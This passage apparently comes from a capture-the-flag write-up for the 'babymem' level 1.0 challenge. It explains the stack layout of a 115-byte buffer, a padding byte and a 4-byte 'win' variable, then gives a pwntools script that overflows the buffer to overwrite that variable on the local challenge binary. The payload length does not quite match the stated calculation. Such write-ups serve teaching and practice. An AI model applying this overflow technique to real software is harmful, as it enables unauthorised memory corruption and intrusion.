 The actual `win` variable is located right after the buffer, at `(rsp+0x00b4)`.

In order to overwrite the variable, we have to first overflow the buffer, whose size is 115 bytes.

So the buffer and `win` variable, are located as follows:

```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
```

So as soon as the buffer ends, we have a single `NULL` byte, possibly a `padding byte`. And then we have our win variable which is 4 bytes long.

This means that we need to provide a payload of (115 + 1 + 4) bytes.

We are going to use pwntools in order to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

As we can see we have successfully overwritten the win function.



## level 1.1

> Overflow a buffer on the stack to set the right conditions to obtain the flag!

This time we are not given any information by the program.
